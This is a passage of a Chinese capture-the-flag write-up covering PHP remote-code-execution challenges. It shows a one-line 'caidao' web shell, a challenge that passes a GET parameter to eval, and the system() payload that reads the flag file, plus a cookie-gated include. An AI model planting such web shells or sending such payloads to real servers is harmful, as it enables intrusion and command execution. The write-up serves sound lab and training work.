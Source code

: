 再传个名为shell的马就行，

文件格式无所谓，因为都会被当成php解析

![](https://i.loli.net/2021/10/11/z3xOk6l2pvWeQrS.png)











## rce

### caidao

```php
@eval($_POST['wllm']);
```

![](https://i.loli.net/2021/10/11/cnZ1gbomPrEpOyH.png)

### easyrce

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?>
```

本来以为会ban掉一些函数，看了一下phpinfo发现没有

直接`?url=system("cat /flllllaaaaaaggggggg");`



### babyrce

```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```
